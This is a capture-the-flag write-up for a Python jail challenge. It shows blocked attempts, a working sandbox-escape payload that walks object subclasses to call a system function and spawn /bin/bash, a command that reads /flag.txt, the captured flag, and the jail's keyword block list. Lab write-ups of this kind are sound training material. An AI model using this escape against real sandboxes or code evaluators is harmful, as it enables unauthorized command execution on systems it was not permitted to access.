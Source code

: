 # Snake Game

## Challenge

Hi, TCC-CSIRT analyst,

Snakes are wonderful creatures, and everyone loves them. Many people enjoy playing with snakes and find them fascinating companions. One of them lives on `snakegame.leisure.tcc` on port `23001/TCP`.

See you in the next incident!

Hint: The snake is actually a Python.

## Solution

The challenge involves interacting with a Python-based input validator that restricts the use of certain keywords like `eval`, `import`, `os`, and others. We explored ways to bypass these restrictions and ultimately obtain the flag.

### 1. Initial Exploration

We tried several methods that were blocked:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : __import__('os')
This is not allowed: import
```

Similarly, using eval was blocked:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : eval(input())
This is not allowed: eval
```

### 2. Bypassing Restrictions with Object Introspection

We were able to bypass the input validation using object introspection to access Python internals and execute commands:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : ().__class__.__mro__[1].__subclasses__()[140].__init__.__globals__["System".lower()]("/bin/bash")
```

Once we obtained a shell, we explored the file system and discovered the `/flag.txt` file but reading it directly with cat didn't work (maybe cat not available).

### 3. Printing The Flag

To print the flag, we invoked Python and read the flag:

```bash
nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : ().__class__.__mro__[1].__subclasses__()[140].__init__.__globals__["System".lower()]("/bin/bash")

python -c "print(open('/flag.txt').read())"
FLAG{lY4D-GJaQ-VUks-PNQd}
```

We also inspected the jail's Python code:

```python
import string

print('Hello, I can only speak Python, show me your code.')
code = input('Enter your code : ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 
                'os', 'builtins', "'", '""', '+', '*' ]:
    if keyword in code:
        print('This is not allowed:', keyword)
        break
else:
    try:
        print(eval(code, {'__builtins__': {'str': str}}))
    except Exception as e:
        print(f'I\'m confused - {e}')
```

## Flag

```
FLAG{lY4D-GJaQ-VUks-PNQd}
```
